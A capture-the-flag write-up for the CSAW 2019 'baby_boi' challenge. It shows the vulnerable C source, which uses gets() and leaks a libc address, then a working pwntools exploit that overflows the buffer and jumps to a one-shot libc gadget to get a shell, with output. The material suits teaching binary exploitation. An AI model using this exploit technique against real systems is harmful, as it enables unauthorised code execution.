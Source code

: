 # Csaw 2019 Babyboi

Let's take a look at the binary, libc file, and source code. For this challenge we do get a copy of it:

```
$    file baby_boi
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
$    pwn checksec baby_boi
[*] '/Hackery/pod/modules/8-bof_dynamic/csaw19_babyboi/baby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./libc-2.27.so
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.3.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
$    ./baby_boi
Hello!
Here I am: 0x7f995049c830
15935728
$    cat baby_boi.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

So we can see that the binary just prompts us for text. Looking at the source code, we see that it prints the libc address for `printf`. After that it calls `gets` on a fixed sized buffer, which gives us a buffer overflow. We can see that the `libc` version is `libc-2.27.so `. Also the only binary protection we see is NX.

## Exploitation

So to exploit this, we will use the buffer overflow. We will call a oneshot gadget, which is a single ROP gadget in the libc that will call `execve("/bin/sh")` given the right conditions. We can find this using the `one_gadget` utility (https://github.com/david942j/one_gadget):

```
$    one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

So leveraging the libc infoleak with the `printf` statement to the libc `printf` (and that we know which libc version it is), we know the address space of the libc. For which onegadget to pick, I typically just do trial and error to see what conditions will work. You can actually check when it is called to see what conditions will be met however.

## Exploit

Putting it all together, we have the following exploit. This was ran on `Ubuntu 18.04`:
```
from pwn import *

# Establish the target
target = process('./baby_boi', env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF('libc-2.27.so')
#gdb.attach(target)

print target.recvuntil("ere I am: ")

# Scan in the infoleak
leak = target.recvline()
leak = leak.strip("\n")

base = int(leak, 16) - libc.symbols['printf']

print "wooo:" + hex(base)

# Calculate oneshot gadget
oneshot = base + 0x4f322

payload = ""
payload += "0"*0x28         # Offset to oneshot gadget
payload += p64(oneshot)     # Oneshot gadget

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run the exploit:
```
$    python exploit.py
[+] Starting local process './baby_boi': pid 12693
[*] '/home/guyinatuxedo/Desktop/babyboi/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Hello!
Here I am:
wooo:0x7fe0eb22e000
[*] Switching to interactive mode
$ w
 21:29:32 up 57 min,  1 user,  load average: 0.17, 0.26, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16Sep19 ?xdm?  47.39s  0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
baby_boi  baby_boi.c  exploit.py  libc-2.27.so    readme.md
```

